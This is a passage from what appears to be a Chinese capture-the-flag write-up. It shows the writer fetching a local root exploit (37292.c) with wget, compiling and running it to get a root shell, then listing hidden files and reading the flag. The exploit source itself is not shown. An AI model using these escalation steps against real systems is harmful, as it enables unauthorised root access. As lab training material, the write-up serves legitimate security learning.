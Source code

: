 在已连接的目标系统用wget下载

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZmU5OGQ1YWZiYTAzMDZjM2NjNDFjYTIxY2YzYjlmZWFfdEhmUzY3ZXBhZjBmVld6ZUVvRVE0T2VZTTFZZE5xdE5fVG9rZW46UTBIUGJoY2o3bzBuZ0x4WjY5S2NpM1dIblBoXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZmNlMjQ5MmYxMzBjNjVhYzdjZmM1YWFkYWMwNzE5ZjBfcWZHYWxUT2t4TmhWbHAxM0dYNVY5V0RrTDZqUXpxcEJfVG9rZW46TnI5N2I0c0Nqb2xLMlR4dWE0a2M4UTYwbjFlXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

编译（无视报错）

`cc 37292.c -o xxg `    ---C语言的CC代码编译点c文件

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=YmVmYjliN2FlMGJjZTUxN2UwNGY4NzU0YTE4MTg4ZWFfRmV2bjRZVXRhWWIwaFdIcWYwY1FTb0dQNnY5Yk4wdlNfVG9rZW46RjdYd2JnWGhVb1dYczB4U1V5bmNDRVhRbmFoXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

`chmod +x xxg`          ---编译成可执行文件，并赋权

`./xxg`                      ---点杠执行

成功getshell，获取root权限

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZjMzOTI4MjljMzFlYzNkNGY2YTkxODA5MWZjMDlhMTFfVzAyWGQ4eDJqRVNtY0FIcFpFUGFYQzNheFk3SFlnZ3RfVG9rZW46VnJ6VWJFOTNPb1l4Mkt4Q2d3eGNoRzcxblFnXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

获取flag

**`ls`**` -a`          ----*显示当前目录中的所有文件和目录，包括**隐藏**文件*

`cat .flag.txt`               ----打开隐藏的txt

在 Unix 和类 Unix 操作系统中，以点（`.`）开头的文件名通常被视为隐藏文件。

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MzM3NGM1MjkyNmJjZjU4ZmM0YmU5MmU5OGE4M2M2ZjZfdzJhSVdKU1VUT05WMkpGbEdRWUVuWlZMZGMwNFRCVFNfVG9rZW46VGQ5eWJ5Snpxb3ZqR0p4alhubmNmeXBDbm1nXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)